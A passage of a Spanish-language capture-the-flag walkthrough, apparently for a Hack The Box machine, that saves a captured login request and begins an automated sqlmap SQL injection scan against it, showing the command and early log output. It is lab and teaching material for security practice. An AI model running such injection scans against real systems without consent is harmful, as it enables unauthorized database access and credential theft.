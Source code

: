 Bien, ahora solo probar si podemos descifrar la contraseña.

<h2 id="SQL4">Utilizando SQLMAP para Dumpear Base de Datos</h2>

Ya lo hicimos de forma manual, ahora hagámoslo de forma automatizada.

Para esto, vamos a usar la herramienta **sqlmap**.

Antes de usarla, necesitaremos guardar la captura que hicimos de la petición del login.

Guárdala en un archivo:
```bash
nano loginRequest.txt
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://10.10.11.130
Connection: keep-alive
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=test1@test.com&password=test123
```

Usaremos este archivo para que pueda trabajar **sqlmap**.

Primero, probemos si **sqlmap** puede usar el archivo para encontrar una forma de aplicar las inyecciones.

Debemos indicarle que use nuestro archivo (`-r`) y le decimos que use el comportamiento por defecto, para que no nos pregunte nada (`--batch`):
```bash
sqlmap -r loginRequest.txt --batch
        ___
       __H__                                                                                                                                                                                                     
 ___ ___[,]_____ ___ ___  {1.8.9#stable}                                                                                                                                                                         
|_ -| . ["]     | .'| . |                                                                                                                                                                                        
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                        
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                     

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:56:42 /2024-10-14/

[18:56:42] [INFO] parsing HTTP request from 'loginRequest.txt'
[18:56:43] [INFO] testing connection to the target URL
[18:56:43] [INFO] checking if the target is protected by some kind of WAF/IPS
[18:56:43] [INFO] testing if the target URL content is stable
[18:56:44] [INFO] target URL content is stable
[18:56:44] [INFO] testing if POST parameter 'email' is dynamic
[18:56:44] [WARNING] POST parameter 'email' does not appear to be dynamic
```